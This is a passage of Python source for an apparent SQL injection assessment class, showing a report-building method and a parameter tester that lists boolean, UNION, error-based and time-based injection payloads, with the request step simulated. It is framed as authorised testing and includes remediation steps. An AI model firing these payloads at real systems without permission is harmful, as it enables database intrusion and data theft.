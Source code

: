 ```python
        Comprehensive SQL injection vulnerability assessment
        
        ETHICAL TESTING ONLY - Use only on systems you own or have permission to test
        """
        print("=== SQL INJECTION VULNERABILITY ASSESSMENT ===\n")
        
        assessment_report = {
            'target': self.target_url,
            'parameters_tested': parameters,
            'vulnerabilities_found': [],
            'exploitation_scenarios': [],
            'risk_rating': 'LOW',
            'remediation_recommendations': []
        }
        
        for param in parameters:
            vulnerability = self._test_parameter_for_sql_injection(param)
            if vulnerability:
                assessment_report['vulnerabilities_found'].append(vulnerability)
                
                # Develop exploitation scenarios
                exploit_scenarios = self._develop_exploitation_scenarios(param, vulnerability)
                assessment_report['exploitation_scenarios'].extend(exploit_scenarios)
        
        # Calculate overall risk rating
        assessment_report['risk_rating'] = self._calculate_risk_rating(
            assessment_report['vulnerabilities_found']
        )
        
        # Generate remediation recommendations
        assessment_report['remediation_recommendations'] = self._generate_remediation_plan(
            assessment_report['vulnerabilities_found']
        )
        
        return assessment_report
    
    def _test_parameter_for_sql_injection(self, parameter: str) -> Dict[str, Any]:
        """
        Test specific parameter for SQL injection vulnerabilities
        """
        print(f"Testing parameter: {parameter}")
        
        # SQL injection test payloads
        test_payloads = [
            "' OR '1'='1",           # Basic boolean-based
            "' UNION SELECT NULL--",  # Union-based
            "'; WAITFOR DELAY '00:00:05'--",  # Time-based (SQL Server)
            "' AND (SELECT COUNT(*) FROM information_schema.tables)>0--",  # Error-based
            "' OR SLEEP(5)--",       # Time-based (MySQL)
            "' OR pg_sleep(5)--",    # Time-based (PostgreSQL)
        ]
        
        vulnerability_evidence = []
        
        for payload in test_payloads:
            try:
                # Simulate testing (replace with actual HTTP request in real testing)
                result = self._simulate_sql_injection_test(parameter, payload)
                
                if result['vulnerable']:
                    vulnerability_evidence.append({
                        'payload': payload,
                        'response_indicator': result['indicator'],
```